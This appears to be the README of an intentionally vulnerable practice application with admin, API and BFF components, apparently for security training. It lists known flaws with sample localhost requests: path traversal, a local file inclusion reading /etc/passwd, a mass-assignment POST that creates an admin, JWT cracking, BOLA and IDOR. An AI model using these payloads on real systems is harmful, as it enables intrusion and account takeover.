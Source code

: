 # Known vulnerabilities

### Tips for admin app

- login page always will `Username or password is incorrect` return
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment `curl -X POST -d '{"username": "test1", "password": "test", "admin": true}'`
* Added `/actuator` for future secondary context findings
* Possible to BOLA on cards `/cards` PUT request 
* Excessive Data Exposure on DELETE request `/cards`

### Tips for bff app

* IDOR on orders `localhost:8085/bff/orders/{orderId}`
* Path traversal for get all users from bff to api - `localhost:8085/bff/cards?cardId=../../../../system/all/users` or `localhost:8085/bff/cards?cardId=../../../../actuator`


## TODO
- Actuator on api should be closed under httpd.
- Add README with story
- Add build FE and deploy to httpd
- Add prod docker-compose
